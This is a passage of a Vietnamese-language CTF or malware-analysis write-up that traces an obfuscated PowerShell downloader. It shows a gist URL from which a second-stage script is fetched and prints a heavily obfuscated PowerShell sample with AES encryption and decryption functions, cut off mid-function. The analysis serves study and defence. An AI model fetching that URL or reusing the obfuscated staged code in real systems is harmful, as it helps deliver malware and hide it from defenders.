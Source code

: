 - Tiếp đến đọc code và thấy được rằng ở <code>outer_var14</code> script sẽ tạo 1 object thực hiện gửi request GET đến 1 url là output của <code>func1</code>
- Thử chạy đoạn này thì có được link github có script powershell của tác giả : https://gist.githubusercontent.com/bquanman/98da73d49faec0cbbdab02d4fd84adaa/raw/8de8b90981e667652b1a16f5caed364fdc311b77/a80sc012.ps1

 ![image](https://github.com/M1nh-Duk/Writeups/assets/100038173/a4bf0c2b-b89a-490c-9219-42768c452045)

- Sử dụng <code>ScriptBLocking</code> của Powershell để có được 1 đoạn script nữa sau khi chạy

![image](https://github.com/M1nh-Duk/Writeups/assets/100038173/bccaa9e1-8cbb-480e-95e4-53e16234abf8)

- Lại 1 đoạn script nữa bị obfuscate. Dùng <code>PSDecode</code> để deobfuscate và có được đoạn script cuối 
```
${8rT3WA}  = [tyPe]'sySTEm.seCUrItY.cryPTOGRaphY.CiphERMOde' ;
SV '72j5O'  (  [TYpe]'sYstem.seCuriTY.cRYptoGRapHY.paDDingmOde'  ) ;   
${XNfD}=[tyPe]'System.cONVErT'  ;  
${HLvW1} =  [tYPe]'SYStEM.tEXt.EnCOdiNG';  
.'SeT-iTem' 'vARIabLE:92y7'  (  [Type]'SysteM.NEt.dnS')  ; 
${UJXRc}=[tyPE]'StrinG' ;
function CrEATe-AeSmanAGeDoBJeCt(${vxZTmff}, ${5TMRWpLUy}) {
    ${AJuJVRAZ99}           = .'New-Object' 'System.Security.Cryptography.AesManaged'
    ${AJUjvrAZ99}.Mode      =   (  .'gEt-vARIAblE'  ("8rt3Wa") -Value  )::"c`Bc"
    ${aJujVRAZ99}.PAddInG   =  ( .Dir  'vARIable:72j5o'  ).VALUe::"ze`Ros"
    ${AJUJvrAz99}.BlOckSizE = 128
    ${AjuJvRAz99}.keysIze   = 256
    if (${5TMRWPluy}) {
        if (${5TmRWpLuy}.getType.iNVOke().nAME -eq 'String') {
            ${ajUjvRaZ99}.Iv =  (&'dir'  'vaRIaBle:xNFd').vAlUe::'FromBase64String'.InVOKe(${5TMRWPlUy})
        }
        else {
            ${ajUjVraZ99}.IV = ${5tmRwPLUy}
        }
    }
    if (${VxZtMFF}) {
        if (${VXzTmfF}.getType.INvoKe().nAME -eq 'String') {
            ${ajUjVraZ99}.Key =  ( LS 'VariAble:XNFD' ).vAluE::'FromBase64String'.invOKe(${vxzTmFF})
        }
        else {
            ${AjUJVrAZ99}.key = ${vXzTmff}
        }
    }
    ${aJUjvRAZ99}
}
function eNCRYpT(${VxzTMFf}, ${ROFPdqRF99}) {
    ${ByTES}             =   (  .varIable  'hlvW1' ).vALUE::"u`Tf8".GetBytes.INVokE(${rOFpdQRF99})
    ${ajujVRAZ99}        = .'Create-AesManagedObject' ${VXZtMFf}
    ${qDIqLGaQ99}         = ${aJujVRAZ99}.CreateEncryptor.inVoKe()
    ${lwihYmIF99}     = ${QdiqLgaq99}.TransformFinalBlock.iNvOKe(${byTeS}, 0, ${byTes}.LeNgTh);
    [byte[]] ${fJAxUWQN99} = ${AJujvRAz99}.Iv + ${lWiHYmiF99}
    ${ajUJVRAZ99}.Dispose.iNVOKE()
     ${xNFd}::"tOBase6`4`S`TRi`NG".iNvoke(${FjAXUWqN99})
}
function deCRyPT(${VXztmFF}, ${bKJrxQCf99}) {
    ${bYTEs}           =   (&'vARiable'  'xnfd' ).ValuE::'FromBase64String'.InVOKE(${BkjRxqcF99})
    ${5tMRWpLuY}              = ${BYTes}[0..15]
    ${aJuJVraz99}      = .'Create-AesManagedObject' ${VxZTmFF} ${5TMRwpLUY}
    ${MNDmWYnB99}       = ${AJUjvRAz99}.CreateDecryptor.InVoke();
    ${AhtLMYhl99} = ${MNDmWynB99}.TransformFinalBlock.iNvokE(${bYTES}, 16, ${byTeS}.lENgTH - 16);
    ${AJUjVRAZ99}.Dispose.INVOKE()
      ${HLVW1}::"uT`F8".GETStriNg(${AhtLmYhl99}).TRIM([char]0)
```
